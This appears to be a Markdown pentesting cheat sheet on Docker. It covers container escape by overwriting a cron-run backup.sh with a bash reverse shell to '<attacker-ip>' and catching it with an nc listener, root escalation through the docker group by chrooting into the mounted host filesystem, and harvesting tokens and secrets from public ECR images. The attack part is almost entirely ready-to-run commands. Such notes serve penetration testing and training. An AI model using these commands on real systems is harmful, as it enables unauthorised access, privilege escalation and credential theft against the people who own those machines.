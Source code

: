 ```yaml
---
title: Docker Pentesting
desc: 
tags: [AWS, Container, Docker, Netcat, Privilege Escalation]
alts: [Privilege-Escalation-Linux]
render_with_liquid: false
---
```


## 1. Basic Investigation

1. List All Images

    ```sh
    docker images
    ```

<br />

## 2. Escape from Container to Desired Machine

1. **Check if the Backup File like "backup.sh" Exists**

    ```sh
    cd /opt/backups
    ls
    ```

2. **Add Reverse Shell Payload to the Backup File**

    If you find the backup file and it's executed automatically at regular intervals by cron, inject the reverse shell payload to escape from the container shell.

    ```sh
    echo -e '#!/bin/bash\nbash -i >& /dev/tcp/<attacker-ip>/4444 0>&1' > backup.sh
    # or
    printf '#!/bin/bash\nbash -i >& /dev/tcp/<attacker-ip>/4444 0>&1' > backup.sh
    ```

3. **Open Listner for Waiting the Reverse Shell**

    Use "nc" command to open listener and wait for while running the previous script by cron.

    ```sh
    # In attacker machine, wait for the cron job execute the reverse shell
    nc -lvnp 4444
    ```

4. **Confirmation**

    If you found the computer's name changed, you gained the access to the desired machine successfully.

    ```sh
    user@realhost:~#
    ```

<br />

## 3. Root Privilege Escalation (Docker Group Required)

1. **Check if Current User Belongs to "docker" Group**

    ```sh
    groups
    ```

2. **Gain the Root Shell**

    ```sh
    docker run -v /:/mnt --rm -it alpine chroot /mnt sh
    ```

<br />

## 4. Amazon Elastic Container Registry (ECR) Public Gallery

1. **Run the Docker Container**

    - **Retrieve a Container Image**

        ```sh
        docker pull public.ecr.aws/<registry-alias>/<repository>:latest
        ```

    - **Check if It was Pulled**

        ```sh
        docker images
        ```

    - **Run the Container and Interect with It**

        ```sh
        docker run -it public.ecr.aws/<registry-alias>/<repository>:latest
        ```

2. **Get Sensitive Information in the Container**

    You may be able to get the interesting data like **api_key**.

    ```sh
    printenv
    ```

3. **Get Sensitive Information in Local Machine**

    - **Check the Container Config and Retrieve Sensitive Information**

        Process the following flows in your local machine.

        ```sh
        mkdir example
        cd example/
        docker save -o example.tar public.ecr.aws/<registry-alias>/<repository>:latest
        tar -xf example.tar

        # Config files
        cat manifest.json | jq
        cat f9ab.......json | jq

        # Also config file in each directory
        cd 2246f........../
        tar -xvf layer.tar

        # Get sensitive information
        grep -e 'token' -e 'secret' */*
        ```
